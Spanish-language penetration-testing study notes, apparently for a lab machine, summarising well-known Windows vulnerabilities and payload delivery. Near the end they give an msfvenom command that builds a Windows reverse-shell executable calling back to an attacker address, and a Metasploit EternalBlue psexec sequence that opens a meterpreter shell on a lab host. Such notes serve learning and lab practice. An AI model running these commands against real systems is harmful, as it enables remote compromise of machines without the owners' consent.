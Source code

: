 
### **Vulnerabilidades Prominentes de Windows**

A lo largo de los años, se han identificado numerosas vulnerabilidades críticas en sistemas Windows. Aquí tienes un resumen de algunas de las más destacadas:

| Vulnerabilidad     | Descripción                                                                                           |
| ------------------ | ----------------------------------------------------------------------------------------------------- |
| **MS08-067**       | Flaw en SMB que permitió la propagación de Conficker y Stuxnet.                                       |
| **EternalBlue**    | Exploit filtrado por Shadow Brokers, usado en ataques como WannaCry.                                  |
| **PrintNightmare** | Vulnerabilidad en el Print Spooler que permite RCE con credenciales válidas.                          |
| **BlueKeep**       | CVE-2019-0708, afecta RDP y permite RCE desde Windows 2000 hasta Server 2008 R2.                      |
| **Sigred**         | CVE-2020-1350, explota un error en cómo DNS lee registros SIG, permitiendo acceso como Domain Admin.  |
| **SeriousSam**     | CVE-2021-36924, expone el SAM database mediante copias de sombra del sistema.                         |
| **Zerologon**      | CVE-2020-1472, explota una falla criptográfica en Netlogon para comprometer controladores de dominio. |

### **Tipos de Archivos Ejecutables en Windows**

|Tipo|Descripción|
|---|---|
|**DLL**|Bibliotecas dinámicas que pueden inyectarse para ganar acceso o privilegios elevados.|
|**Batch (.bat)**|Scripts DOS para automatizar comandos en el host.|
|**VBS**|Scripts basados en VB utilizados para phishing o automatización.|
|**MSI**|Paquetes de instalación que pueden usarse para entregar payloads.|
|**PowerShell**|Scripting avanzado con acceso a .NET y funciones del sistema.|

### **Generación, Transferencia y Ejecución de Payloads**

#### **Generación de Payloads**

Herramientas como **MSFVenom**, **Metasploit Framework**, y **Nishang** son útiles para crear payloads específicos para Windows.

Ejemplo con MSFVenom para crear un payload de reverse shell en Windows:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > payload.exe
```


#### **Transferencia de Payloads**

- **Impacket:** Herramientas para interactuar con protocolos de red, como SMB y Kerberos.
- **SMB:** Útil para transferir archivos entre hosts en redes Windows.
- **HTTP/FTP:** Si los servicios están habilitados en el host.

### solucion maquina
#windows
![[Pasted image 20241116052027.png]]

usamos en metaxploit
```bash
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.129.5.66
set LHOST 10.10.17.48
set LPORT 5555
exploit
```
lo cual nos abre una consola meterpreter desde donde lanzamos una shell
![[Pasted image 20241116051944.png]]
